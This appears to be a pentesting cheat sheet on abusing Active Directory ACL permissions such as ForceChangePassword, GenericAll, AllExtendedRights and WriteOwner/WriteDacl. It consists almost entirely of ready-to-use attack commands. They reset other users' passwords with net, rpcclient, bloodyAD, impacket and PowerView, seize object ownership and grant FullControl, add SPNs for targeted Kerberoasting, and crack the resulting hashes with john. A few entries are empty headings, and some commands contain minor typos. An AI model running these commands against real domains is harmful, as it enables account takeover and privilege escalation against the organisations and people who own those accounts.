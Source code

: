 # ACLs/ACEs permissions on User

### ForceChangePassword

#### 1) Net (Windows)

    net user TARGET_USER PASSWORD /domain (Windows)

#### 2) Net (Linux)

    net rpc password TARGET_USER PASSWORD -S DC_FQDN -U domain.local/USER1%'Password@1'
    
#### 3) Impacket

    impacket-changepasswd ignite.local/USER1@DC_IP -newpass Password@1234 -altuser ignite.local/TARGET_USER -altpass Password@1 -reset

Impacket’s changepassword can also be used to change current user password, if current password is known.

    impacket-changepasswd domain.local/USER1@DC_IP -newpass ‘Password@987’ -p rpc-samr

### GenericAll / GenericWrite

#### 1) Windows net command

Change the password of a user

    net user USER PASSWORD /domain

#### 2) Linux Net RPC - Samba 

    net rpc password TARGET_USER 'Password@987' -U domain.local/USER1%'Password@1' -S DC_IP   

#### 3) BloodyAD

    bloodyAD --host "DC_IP" -d "domain.local" -u "USER1" -p "Password@1" set password "TARGET_USER" "Password@9876"

#### 4) Rpcclient

    rpcclient -U domain.local/USER1 DC_IP
    rpcclient $> setuserinfo TARGET_USER 23 "Password@9876"

#### 5) Targeted Kerberoasting (add SPN)

    targetedKerberoast.py -d DOMAIN -u USER -p PASS (TGS Hash)

 ### Alternate method: Powerview

#### 1) Enumerate interesting ACLs with powerview

    Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "OUR_USER"} 

#### Then:

    Set-DomainObject -Identity TARGET_USER -SET @(serviceprincipalname='nonexistent/WHATEVER') (Powerview)

    Get-DomainSPNTicket -SPN nonexistent/WHATEVER (Powerview)

#### 6) Logon Script (Access)

#### 7) add Key Credentials (Shadow Credentials)

#### 8) Powerview

    $SecPassword = ConvertTo-SecureString 'Password@987' -AsPlainText -Force
    $Cred = New-Object System.Management.Automation.PSCredential('domain.local\TARGET_USER', $SecPassword)

#### 9) Windows PowerShell

    $NewPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
    Set-DomainUserPassword -Identity 'TARGET_USER' -AccountPassword $NewPassword

### AllExtendedRights

#### 1) Linux Net RPC - Samba

    net rpc password TARGET_USER 'Password@987' -U domain.local/USER1%'Password@1' -S DC_IP

#### 2) BloodyAD

    bloodyAD --host "DC_IP" -d "domain.local" -u "USER1" -p "Password@1" set password "TARGET_USER" "Password@987"

#### 3) Rpcclient

    rpcclient -U domain.local/USER1 DC_IP
    rpcclient $> setuserinfo TARGET_USER 23 Ignite@987

#### 4) Powerview

    powershell -ep bypass
    Import-Module .\PowerView.ps1
    $NewPassword = ConvertTo-SecureString 'Password1234' -AsPlainText -Force
    Set-DomainUserPassword -Identity 'TARGET_USER' -AccountPassword $NewPassword

### WriteOwner  /WriteDacl

#### 1) impacket-owneredit

Grant Ownership (owneredit), then assign Full Control (dacledit), then perform Kerberoasting or Password Change attacks (ForceChangePassword).

    impacket-owneredit -action write -new-owner 'USER1' -target-dn 'CN=TARGET_USER,CN=Users,DC=domain,DC=local' 'domain.local'/'USER1':'Password@1' -dc-ip DC_IP

#### 2) impacket-dacledit

    impacket-dacledit -action 'write' -rights 'FullControl' -principal 'USER1' -target-dn 'CN=TARGET_USER,CN=Users,DC=domain,DC=local' 'domain.local'/'USER1':'Password@1' -dc-ip DC_IP

Then, you can do targeted Kerberoasting for example

    python3 targetedKerberoast.py --dc-ip 'DC_IP' -v -d 'domain.local' -u 'USER1' -p 'Password@1'

Crack hash

    john -w=/usr/share/wordlists/rockyou.txt hash

OR you can change the TARGET_USER's password

    net rpc password TARGET_USER 'Password@987' -U domain.local/USER1%'Password@1' -S DC_IP

BloodyAD

    bloodyAD --host "DC_IP" -d "domain.local" -u "USER1" -p "Password@1" set password "TARGET_USER" "Password@987"

#### 3) Powerview

    powershell -ep bypass
    Import-Module .PowerView.ps1
    Set-DomainObjectOwner -Identity 'TARGET_USER' -OwnerIdentity 'USER1'
    Add-DomainObjectAcl -Rights 'All' -TargetIdentity "TARGET_USER" -PrincipalIdentity "USER1"

Now, do Kerberoast from a Windows Machine instead

    Set-DomainObject -Identity 'TARGET_USER' -Set @{serviceprincipalname='nonexistent/hacking'}
    Get-DomainUser 'TARGET_USER' | Select serviceprincipalname
    $User = Get-DomainUser 'TARGET_USER'
    $User | Get-DomainSPNTicket

OR change password

    $NewPassword = ConvertTo-SecureString 'Password1234' -AsPlainText -Force
    Set-DomainUserPassword -Identity 'TARGET_USER' -AccountPassword $NewPassword
